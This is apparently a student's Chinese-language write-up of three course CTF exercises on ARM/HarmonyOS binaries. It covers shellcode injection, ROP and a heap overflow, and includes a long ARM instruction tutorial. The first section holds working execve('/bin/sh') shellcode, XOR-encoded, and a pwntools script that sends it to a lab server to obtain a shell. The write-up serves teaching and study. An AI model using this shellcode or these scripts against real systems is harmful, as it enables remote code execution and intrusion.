

## 01 - HarmShell

**分值**: 35分
**题目说明**:
本题需要编写shellcode并向服务器端发送，服务器会自动解析执行，如果shellcode正确则可以getshell，否则程序崩溃。

题目环境位于: `ip: 10.15.201.97, port: 10000` （校内网）

**题目要点**:

- 编写shellcode并对汇编语句进行分析 （15分）

- 成功getshell，获得最后的 flag （20分）

> 注: getshell后请同以前作业一样运行 `/etc/flag.exe` 程序

**hint**:
注意shell的文件名。

### 漏洞分析及利用

- checksec可以看见是arm平台的32位可执行文件，小端存储，保护全开。

  

- 寻找arm平台的一段27字节的shellcode如下，对应的是`execve("/bin/sh", [0], [0 vars])`：

  ```c
  char SC[] = "\x01\x30\x8f\xe2"
              "\x13\xff\x2f\xe1"
              "\x78\x46\x08\x30"
              "\x49\x1a\x92\x1a"
              "\x0b\x27\x01\xdf"
              "\x2f\x62\x69\x6e"
              "\x2f\x73\x68";
  ```

- 注意在`init.cfg`中可以看到shell的path是`/bin/shell`而网站上的shellcode则是运行`/bin/sh`，因此需要在shellcode后面加三个字节即`ell`的机器码`\x65\x6c\x6c`。

  

- 其对应的.text段的汇编语句为：

  ```asm
  00008054 <_start>:
      8054:	e28f3001 	add	r3, pc, #1	; 0x1
      8058:	e12fff13 	bx	r3
      805c:	4678      	mov	r0, pc
      805e:	3008      	adds	r0, #8
      8060:	1a49      	subs	r1, r1, r1
      8062:	1a92      	subs	r2, r2, r2
      8064:	270b      	movs	r7, #11
      8066:	df01      	svc	1
      8068:	622f      	str	r7, [r5, #32]
      806a:	6e69      	ldr	r1, [r5, #100]
      806c:	732f      	strb	r7, [r5, #12]
      806e:	0068      	lsls	r0, r5, #1
  ```

  各寄存器的作用如下：

  | 寄存器 | 作用                                                         |
  | ------ | ------------------------------------------------------------ |
  | r0     | First function argument Integer function result Scratch register |
  | r1     | Second function argument Scratch register                    |
  | r2     | Third function argument Scratch register                     |
  | r3     | Fourth function argument Scratch register                    |
  | r5     | Register variable                                            |
  | r7     | Store the address of the Syscall to execute                  |

  r0-r3 用于传递函数参数，从左到右分别为参数1-参数4。r5和r7作为临时变量。在另一方面r7用来存储syscall的地址。编写shellcode功能函数需要先查找 syscall的地址。

  在ARM下，我们有Thumb Mode，它允许我们使用16位寻址，而不是32位。

  `execve()`的结构如下：

  ```asm
  r0 => "//bin/sh"
  r1 => "//bin/sh"
  r2 => 0
  r7 => 11
  ```

  分析如下：

  ```asm
   .section .text
    .global _start
    _start:
      .code 32      // 
      add   r3, pc, #1    // for Thumb Mode
      bx  r3      //
      .code 16      //
  
      mov   r0, pc      // place the address of pc in r0
      add   r0, #8      // add 8 to it (which then makes it point to //bin/sh)
      sub  r1, r1, r1      // subtract r1 from itself (which is the same as placing 0 in r1
      sub  r2, r2, r2    // subtract r2 from itself (which is the same as placing 0 in r2)
      mov   r7, #11      // syscall execve in r7
      svc   1      // execute
      str	r7, [r5, #32]	// place it on the stack
  ```

- 在ida中反汇编可以看到读入的每个字符都要跟`0xAA`取反。

  

- 因此shellcode的每个字节也要先和`0xAA`取反，最后构造出的shellcode如下：

  ```python
  n = []
  shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68' + b'\x65\x6c\x6c'
  for i in shellcode[:]:
  	n.append(i)
  for i in range(len(n)):
  	n[i] = n[i] ^ 0xAA
  shellcode = bytes(n)
  ```

- getshell后，运行 `/etc/flag.exe` 程序，得到flag如下

  

### 实验脚本

```python
from pwn import *
# context.log_level = 'debug' 

sh = remote('10.15.201.97', 10000)

n = []
shellcode = b'\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68' + b'\x65\x6c\x6c'
for i in shellcode[:]:
	n.append(i)
for i in range(len(n)):
	n[i] = n[i] ^ 0xAA
shellcode = bytes(n)

sh.recvuntil("give me something to get shell!")
sh.sendline(shellcode)
sh.sendline("./etc/flag.exe 3180105507")
sh.interactive() 
```

## 02 - HarmROP

**分值**: 35分
**题目说明**: 本题在arm架构下的鸿蒙系统中，考察同学对于ROP的理解与使用，本题的程序中提供了一些gift，妥善使用提供的信息，完成ROP攻击吧！

题目环境位于: `ip: 10.15.201.97, port: 10001` （校内网）

**题目要点**:

- 基本的ARM架构函数调用处理及相关指令的归纳（15分）
- 对于题目的分析（5分）
- getshell，并获取flag（15分）

> 注: getshell后请同以前作业一样运行 `/etc/flag.exe` 程序

**hint**:
虽然是不同的架构，但是攻击的流程大同小异，使用旧的知识在新的平台上大展拳脚吧。
了解一个架构最好的方式，就是**调试**，可以选择魔改题目提供的平台，也可以自己搭建类似的环境。

### ARM架构函数调用处理及相关指令归纳

CPU ARM架构指定了以下的CPU模式。在任何时刻，CPU只可处于某一种模式，但可由于外部事件（中断）或编程方式进行模式切换

- 用户模式：仅非特权模式
- 系统模式：仅无需例外进入的特权模式。仅以执行明确写入CPSR的模式位的指令进入
- Supervisor (svc) 模式：在CPU被重置或者SWI指令被执行时进入的特权模式
- Abort 模式：预读取中断或数据中断异常发生时进入的特权模式
- 未定义模式：未定义指令异常发生时进入的特权模式
- 干预模式：处理器接受一条IRQ干预时进入的特权模式
- 快速干预模式：处理器接受一条IRQ干预时进入的特权模式
- Hyp 模式：armv-7a为cortex-A15处理器提供硬件虚拟化引进的管理模式

ARM 是 Load/Store 结构的处理器，能且仅能在寄存器中进行操作，而不能在内存中做运算。使用时要从存储器读值送寄存器，算完再放回去。

指令可以分为：数据处理、Load/Store（寄存器、内存数据传输）、跳转、CPSR处理、异常产生、协处理器。

#### 2.1 指令格式

ARM指令通常后跟一个或两个操作数，并且通常使用以下模板：

```
MNEMONIC {S} {condition} {Rd}，Operand1，Operand2
```

- MNEMONIC：指令简称
- {S}：可选的后缀，如果指定了S，则根据操作结果更新条件标志
- {condition}：执行指令需要满足的条件
- {Rd}：用于存储指令结果的寄存器
- Operand1：第一个操作数，寄存器或立即数
- Operand2：第二个操作数[可选]，可以是立即数或带有可移位的寄存器

Operand2被称为灵活操作数，因为我们可以以多种形式使用它，例如，我们可以将这些表达式用作Operand2：

| 指令      | 意义                    |
| --------- | ----------------------- |
| #123      | 立即数                  |
| Rx        | 寄存器（如R1，R2，R3…)  |
| Rx, ASR n | 寄存器算数右移n位       |
| Rx, LSL n | 寄存器逻辑左移n位       |
| Rx, LSR n | 寄存器逻辑右移n位       |
| Rx, ROR n | 寄存器向右旋转n位       |
| Rx, RRX   | 寄存器向右旋转1位，扩展 |

#### 2.2 寄存器

寄存器的数量取决于ARM版本，ARMv7有30个通用寄存器（基于ARMv6-M和基于ARMv7-M的处理器除外），前16个寄存器可在用户级模式下访问，其他寄存器可在特权软件执行中使用

其中，r0-15寄存器可在任何特权模式下访问。这16个寄存器可以分为两组：通用寄存器（R0-R11）和专用寄存器（R12-R15）

ARMv7上的函数调用约定指定函数的前四个参数存储在寄存器r0-r3中

- R0-R12：可在常规操作期间用于存储临时值，指针（到存储器的位置）等，例如：
  - R0：在算术操作期间可称为累加器，或用于存储先前调用的函数的结果
  - R7：在处理系统调用时非常有用，因为它存储系统调用号
  - R11：帮助我们跟踪用作帧指针的堆栈的边界
- R13：SP（堆栈指针）。堆栈指针指向堆栈的顶部。堆栈是用于函数特定存储的内存区域，函数返回时将对其进行回收。因此，通过从堆栈指针中减去我们要分配的值（以字节为单位），堆栈指针可用于在堆栈上分配空间。换句话说，如果我们要分配一个32位值，则从堆栈指针中减去4
- R14：LR（链接寄存器）。进行功能调用时，链接寄存器将使用一个内存地址进行更新，该内存地址引用了从其开始该功能的下一条指令。这样做可以使程序返回到“父”函数，该子函数在“子”函数完成后启动“子”函数调用
- R15：PC（程序计数器）。程序计数器自动增加执行指令的大小。在ARM状态下，此大小始终为4个字节，在THUMB模式下，此大小始终为2个字节。当执行转移指令时，PC保留目标地址。在执行期间，PC在ARM状态下存储当前指令的地址加8（两个ARM指令），在Thumb（v1）状态下存储当前指令的地址加4（两个Thumb指令）。这与x86不同，x86中PC始终指向要执行的下一条指令

#### 2.3 常见指令

|指令|描述|指令|描述|
| --|----|--- | --- |
|MOV|移动数据|EOR|按位异或|
|MVN|移动并取反|LDR|加载|
|ADD|	加	|STR	|存储|
|SUB|	减	|LDM	|加载多个|
|MUL|	乘	|STM	|存储多个|
|LSL|	逻辑左移	|PUSH|	入栈|
|LSR|	逻辑右移	|POP|	出栈|
|ASR|	算术右移	|B|	跳转|
|ROR|	右旋	|BL|	Link跳转|
|CMP|	比较	|BX|	分支跳转|
|AND|	按位与	|BLX|	使用Link分支跳转|
|ORR|	按位或	|SWI/SVC|	系统调用|

#### 2.4 访存

ARM使用加载存储模型进行内存访问，这意味着只有加载/存储（LDR和STR）指令才能访问内存
通常，LDR用于将某些内容从内存加载到寄存器中，而STR用于将某些内容从寄存器存储到内存地址中

```asm
LDR R2,[R0]
```

- 加载指令，读取内存的值到寄存器
- 将R0中的地址的值加载到R2寄存器中

```asm
STR R2,[R1]
```

- 存储指令，从寄存器中读取值写入内存
- 将R2中的值存储到R1中的内存地址处

与高级语言类似，ARM支持对不同数据类型的操作，通常是与ldr、str这类存储加载指令一起使用：

LDR：

|指令|	意义|
|--|--|
|LDR|	加载word|
|LDR h	|加载无符号half word|
|LDR sh	|加载有符号half word|
|LDR b	|加载无符号byte|
|LDR sb	|加载有符号byte|

STR：

|指令|	意义|
|--|--|
|STR|	存储word|
|STR h|	存储无符号half word|
|STR sh	|存储有符号half word|
|STR b	|存储无符号byte|
|STR sb	|存储有符号byte|

- 带符号的数据类型可以同时包含正值和负值，因此范围较小
- 无符号数据类型可以容纳较大的正值（包括“零”），但不能容纳负值，因此范围更广

#### 2.5 访栈

 堆栈的操作包括建栈、进栈、出栈3种基本操作

**建栈**

建栈就是规定堆栈底部在RAM寄存器种的位置，用户可以通过LDR命令设置SP的值来建立堆栈

```asm
LDR R13,=0x90010
LDR SP,=0x90010
```

**压栈和出栈**

在ARM体系结构中使用多寄存器指令来完成堆栈操作：

- 出栈使用：LDM
- 入栈使用：STM

LDM和STM指令往往结合下面一些参数来实现堆栈的操作：

- FD：满递减堆栈
- ED：空递减堆栈
- FA：满递增堆栈
- EA：空递增堆栈

从这里可以看出ARM的堆栈指令有两个属性，空（满）栈和递增（减）栈

- 满/空栈
  - 根据SP指针指向的位置，栈可以分为满栈和空栈
  - 满栈：当堆栈指针总是指向最后压入堆栈的数据
  - 空栈：当堆栈指针总是指向下一个将要放入数据的空位置
- 增/减栈
  - 根据SP指针移动的方向，栈可以分为增栈和减栈
  - 增栈：随着数据的入栈，SP指针从低地址->高地址移动
  - 减栈：随着数据的入栈，SP指针从高地址->低地址移动

在ARM制定了ARM-Thumb过程调用标准（ATPCS）中堆栈被定义为满递减式堆栈，也就是和普通x86的堆栈方式是一样的，从高地址往低地址增长。因此LDMFD和STMFD指令分别被用来支持POP操作（出栈）和PUSH操作（进栈）

下列指令说明了进栈和出栈的过程，设指令执行之前：

> SP=0x00090010(R13)
> R4=0x00000003
> R3=0x00000002
> R2=0x00000001

```asm
STMFD SP!,{R2-R4}
LDMFD SP!,{R6-R8}
```

第一条指令将R2~R4的数据入栈，指令执行前SP的值为0x00090010，指令执行时SP指向下一个地址(SP-4)存放R4，然后依次存放R3，R2，数据入栈后SP的值为0x00090004，指向堆栈的满位置，如果有数据继续入栈则下一地址为0x90000

第二条指令实现退栈操作，在第一条指令的基础上，表示将刚才入栈的数据分别退栈到R6~R8，退栈后SP指向0x00090010。实际上STMFD指令相当于STMDB指令，LDMFD指令相当于LDMIA指令

#### 2.6 条件执行

|条件码|含义|标志位状态|
|--|--|--|
|EQ|等于|	Z==1|
|NE|不等|	Z==0|
|GT|	大于| (Z\==0)&&(N==V) |
|LT|	小于|	N!=V|
|GE|	大于或等于|	N==V|
|LE	|小于或等于|	(Z==1)|
|CS or HS	|无符号大于或等于|	C==1|
|CC or LO	|无符号小于|	C==0|
|MI	|负数|	N==1|
|PL	|正数|	N==0|
|AL	|无条件执行|	-|
|NV	|不执行|	-|
|VS	|有溢出|	V==1|
|VC	|无溢出|	V==0|
|HI	|无符号大于或等于| (C\==1)&&(Z==0) |
|LS	|无符号小于或等于|	(C==0)|

#### 2.7 分支

分支指令分为三种：

- 支（B）
  - 简单跳转到功能
- 分支链接（BL）
  - 将（PC + 4）保存为LR并跳转至功能
- 分支交换（BX）和分支链接交换（BLX）
  - 与B / BL +exchange指令集相同（ARM <-> Thumb）
  - 需要一个寄存器作为第一个操作数：BX / BLX reg
  - BX / BLX用于将指令集从ARM交换到Thumb
- 有条件分支（BEQ）：将值移入寄存器并在寄存器等于指定值的情况下跳转到另一个函数

#### 2.8 函数

栈帧(stack frame)就是一个函数所使用的那部分栈，所有函数的栈帧串起来就组成了一个完整的栈。


ARM的栈帧布局方式。main stack frame为调用函数的栈帧，func1 stack frame为当前函数(被调用者)的栈帧，栈底在高地址，栈向下增长。

- FP：栈基址，它指向函数的栈帧起始地址
- SP：函数的栈指针，它指向栈顶的位置

ARM的规则是：Procedure Call Standard for the ARM Architecture

利用到的寄存器主要是：

- PC寄存器：R15
- LR寄存器：R14
- SP寄存器：R13
- FP寄存器：R11

ARM压栈的顺序依次为当前函数指针PC、返回指针LR、栈指针SP、栈基址FP、传入参数个数及指针、本地变量和临时变量。

如果函数准备调用另一个函数，跳转之前临时变量区先要保存另一个函数的参数。从main函数进入到func1函数，main函数的上边界和下边界保存在被它调用的栈帧里面。

ARM也可以用栈基址和栈指针明确标示栈帧的位置，栈指针SP一直移动

函数调用的共识：

- 函数不对cpsr的内容进行任何假设。条件代码N，Z，C和V是未知的
- 函数可以自由修改寄存器r0，r1，r2和r3
- 函数不能在r0，r1，r2和r3的内容上假设任何内容，除非它们扮演参数的角色
  一个函数可以自由修改lr，但是在离开该函数时将需要输入该函数时的值（因此，该值必须保留在某处）
- 一个函数可以修改所有剩余的寄存器，只要它们的值在离开函数时就被恢复即可。 这包括sp和寄存器r4至r11
- 是函数自己平衡的堆栈

所以调用函数后，（仅）寄存器r0，r1，r2，r3和lr被覆盖

结果返回规则：

- 结果为一个32位的整数时,可以通过寄存器R0返回
- 结果为一个64位整数时,可以通过R0和R1返回，依此类推
- 结果为一个浮点数时,可以通过浮点运算部件的寄存器f0,d0或者s0来返回
- 结果为一个复合的浮点数时,可以通过寄存器f0-fN或者d0~dN来返回
- 对于位数更多的结果,需要通过调用内存来传递

ARM中的函数主要由Prologue、Body、Epilogue组成

Prologue的目的是保存程序的先前状态，并为函数的局部变量设置堆栈，例如：

```asm
PUSH            {R11,LR}	;将帧指针和LR保存到堆栈中
SUB             SP, SP, #8  ;在堆栈上分配一些缓冲区，同时会为栈帧分配空间
ADD             R11, SP, #0 ;设置堆栈框架的底部
```


Body主要负责实现函数功能，简单的例子：

````asm
MOV             R0, #aHelloWorld ; format ;设置局部变量，printf的第一个参数
BLX             printf	;调用printf
````

Epilogue用于将程序的状态恢复到其初始状态，例如：

```asm
MOV             SP, R11		;重新调整堆栈指针
POP             {R11,PC}	;从堆栈中恢复帧指针，通过直接加载到PC跳到先前保存的LR
```

或者：

```asm
SUB				SP,R11,#0	;重新调整堆栈指针
POP				{R11,PC}	;从堆栈中恢复帧指针，通过直接加载到PC跳到先前保存的LR
```


叶函数和非叶函数：

- 叶函数：本身不会调用其他函数
- 非叶函数：除了它自己的逻辑外，还会调用到其他的函数

这两种函数的实现是相似的，但也存在一些不同。他们Prologue和Epilogue的实现方式不同：

- 非叶函数中Prologue会将更多的寄存器保存到堆栈中。因为在执行非叶函数时LR会被修改，因此需要保留该寄存器的值，便于以后恢复
- 在跳转到主函数之前，BL指令将函数main的下一条指令的地址保存到LR寄存器中。由于叶函数不会在执行过程中更改LR寄存器的值，因此该寄存器现在可用于返回父（主）函数

对于Prologue：

```asm
;叶子函数 Prologue
PUSH		{R11,LR}	;将帧指针和LR保存到堆栈中
ADD			R11,SP,#0	;设置堆栈框架的底部
SUB			SP,SP,#16	;在堆栈上分配一些缓冲区
;非叶子函数 Prologue
PUSH		{R11}		;将帧指针保存到堆栈中
ADD			R11,SP,#0	;设置堆栈框架的底部
SUB			SP,SP,#12	;在堆栈上分配一些缓冲区
```

对于Epilogue：

```asm
;叶子函数 Epilogue
ADD			SP,R11,#0	;重新调整堆栈指针
POP			{R11}		;恢复帧指针
BX			LR			;通过LR寄存器跳回main
;非叶子函数 Epilogue
SUB			SP,R11,#0	;重新调整堆栈指针
POP			{R11,PC}	;从堆栈指针中恢复帧指针，通过直接加载到PC
```

#### 2.9 Thumb

ARM处理器具有两种可以运行的主要状态：ARM和Thumb

这两种状态之间的主要区别是指令集，其中ARM状态下的指令始终为32位，Thumb状态下的指令始终为16位（但可以为32位）

现在，ARM引入了增强的Thumb指令集（Thumbv2），该指令集允许32位Thumb指令甚至条件执行，而在此之前的版本中是不可能的，在编写ARM shellcode时，我们需要摆脱NULL字节，并使用16位Thumb指令而不是32位ARM指令来减少使用它们的机会

Thumb和ARM一样也有不同的版本：

- Thumb-1（16位指令）：在ARMv6和更早的体系结构中使用
- Thumb-2（16位和32位指令）：通过添加更多指令并使它们的宽度为16位或32位（ARMv6T2，ARMv7）来扩展Thumb-1
- ThumbEE：包括一些针对动态生成的代码的更改和添加

ARM和Thumb之间的区别：

- 条件执行：ARM状态下的所有指令均支持条件执行。某些ARM处理器版本允许使用“it”指令在Thumb中有条件执行
- 32位ARM和Thumb指令：32位Thumb指令带有.w后缀
- 桶式移位器（barrel shifter）是ARM模式的另一个独特功能。它可以用于将多个指令缩小为一个。例如，您可以使用左移，而不是使用两条指令，将寄存器乘以2并使用mov将结果存储到另一个寄存器中：mov r1, r0, lsl

要切换处理器执行的状态，必须满足以下两个条件之一：

- 可以使用分支指令BX（分支和交换）或BLX（分支，链接和交换）并将目标寄存器的最低有效位设置为1。这可以通过在偏移量上加上1来实现，例如0x5530 + 1。可能会认为这会导致对齐问题，因为指令是2字节或4字节对齐的。这不是问题，因为处理器将忽略最低有效位
- 我们知道如果当前程序状态寄存器中的T位置1，则我们处于Thumb模式

### 漏洞分析及利用

- 同样是arm平台的32位可执行文件，小端存储，保护全开。

  

- 用ida反汇编camera_app得

  

- 获取canary，阅读源代码可知，`flag\==‘y’`或`flag==‘Y'`时，会打印canary以及各函数的起始地址。

  ```c
  	if(flag == 'y' || flag == 'Y')
  	{
  		printf("\n\n[+] Fine, I just want you to be happy. :)\n");
  		int  canary = 0x12345678;
  		
  		__asm__ __volatile__(
  		"ldr %[canary], [sp, #0x4]	\n\t"
              : [canary] "=r" (canary)
              :
              :"memory");
  
  		printf("[!] here is a gift for smiling: %x \n", canary);
  	}
  ```

  

  

- 然后爆破程序的`.text`段。
  - 将返回地址设置为代码段的某地址，然后通过返回的信息判断当前程序的运行状况。
  - 在爆破过程中，plt表位置的爆破得到的返回信息会呈现出一种特定的规律，据此我们可以确定plt表的位置；
  - 再对plt表中的所有未知功能的函数进行逐一测试，即使用stack；
- 此时需要开始扫描程序，搜集信息获取可用的gadget。

- 使用获得的binary中的信息，构建一个普通的ROP攻击。

### 实验脚本

```python
from pwn import *
context.log_level = 'debug' 

sh = remote('10.15.201.97', 10001)

sh.recvuntil("[?] Are you smiling right now? (y/n)")
sh.sendline('y')
sh.recvuntil("[!] here is a gift for smiling: ")
canary=int(sh.recvline(),16)

sh.recvuntil("Reading:")

print('canary = %#x' %canary)

# sh.sendline("./etc/flag.exe 3180105507")
sh.interactive() 
```

## 03 - HarmHeap (BONUS)

**分值**: 30分
**题目说明**:

堆的攻击与利用在不同的平台上往往具有共同性，HarmHeap这一道测试题目旨在考察大家对于一般堆原语的使用。学生需要逆向二进制代码去找到程序逻辑中的漏洞，并基于此漏洞扩展原语，劫持控制流并getshell。

因为是 bonus 题型，欢迎大家在忙完手上的事情后来挑战

题目环境位于: `ip: 10.15.201.97, port: 10002` （校内网）

**题目要点**:

- 分析出程序中存在的漏洞 （10分）
- 利用程序中存在的漏洞让目标崩溃 （10分）
- 构造攻击原语，劫持控制流并getshell，获得最后的 flag （10分）

> 注: flag 在 `/etc/flag.txt` 下

**hint**:
难点在于学习鸿蒙平台下的堆管理器: musl-libc 1.2.0
可以参考之前别的题目如：https://www.anquanke.com/post/id/202253
以及学习其源代码：https://www.musl-libc.org/

### 漏洞分析及利用

- 同上是arm平台的32位可执行文件，小端存储，保护全开。

  

- 用ida反汇编camera_app.debug得：

  

- 反汇编camera_app得：

  

- `v7[]`数组的大小为9，但是`scanf()`读入时，如果字符串长度超过9，就会造成缓冲区溢出，即该函数不执行越界检查。

### 实验脚本

